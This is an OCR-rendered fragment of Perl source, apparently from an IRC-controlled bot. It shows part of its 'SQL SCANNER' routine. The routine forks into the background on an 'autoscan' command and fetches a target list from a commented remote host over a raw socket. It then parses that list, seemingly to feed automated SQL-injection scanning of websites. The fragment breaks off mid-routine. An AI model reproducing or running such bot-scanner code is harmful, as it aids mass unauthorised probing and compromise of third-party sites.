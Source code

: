       } 

   delproc($$); 

   exit; 

   } 

} 

#######  SQL SCANNER  ######### 

  

if ($funcarg =~ /^autoscan\s+(.*)\s+http\:\/\/(.*?)\/(.*?)\s+(\d+)/){ 

if (my $pid = fork) { 

waitpid($pid, 0); 

} else { 

if (my $d=fork()) { 

addproc($d,"[String] $2"); 

exit; 

} else { 

      $kto = $1; 

      $host = $2; 

      $skrypt = $3; 

      $czekac=$4; 

        

      #http://ttl.ugu.pl/string/index.php 

      my $socke = IO::Socket::INET->new(PeerAddr=>$host,PeerPort=>"80",Proto=>"tcp") or return; 

      print $socke "GET /$skrypt HTTP/1.0\r\nHost: $host\r\nAccept: */*\r\nUser-Agent: Mozilla/5.0\r\n\r\n"; 

        

      my @r = <$socke>; 

      $page="@r"; 

     

      $page =~ s/!scan(\s+)//g; 

      $page =~ s/!scan(.)//g; 

      $page =~ s/\<.*\>//g; 

        

      @lines = split (/\n/, $page); 

      $ile=scalar(@lines); 

              

